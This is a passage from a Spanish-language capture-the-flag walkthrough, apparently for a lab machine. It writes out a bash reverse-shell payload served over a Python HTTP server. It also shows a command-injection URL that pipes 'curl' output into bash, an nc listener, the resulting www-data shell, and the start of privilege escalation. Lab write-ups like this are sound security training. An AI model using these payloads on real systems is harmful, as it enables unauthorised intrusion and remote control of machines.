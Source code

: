 ```shell
python3 -m http.server 80
```

Si al enviar el comando con `curl` llega un mensaje al comando de `python3` significa que la herramienta esta instalada, por lo que podremos hacer lo siguiente...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Guardamos el archivo y ahora lo ejecutaremos desde `curl` en la maquina victima haciendo lo siguiente...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma en la maquina victima...

```
URL = http://<IP>/index.php?cmd=curl http://<IP>/ | bash&search=<CONTENT_GENERATE>
```

Info:

```
connect to [192.168.5.145] from (UNKNOWN) [172.18.0.2] 51456
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@e3e9141342e3:/var/www/html$
```

Y con esto ya tendriamos la shell autenticada como `www-data`.

## Escalate user lin

Si nos vamos al siguiente directorio...

```shell
cd /var/www
ls -la
```

Veremos un directorio llamado `.secret_www-data` y si nos metemos dentro.

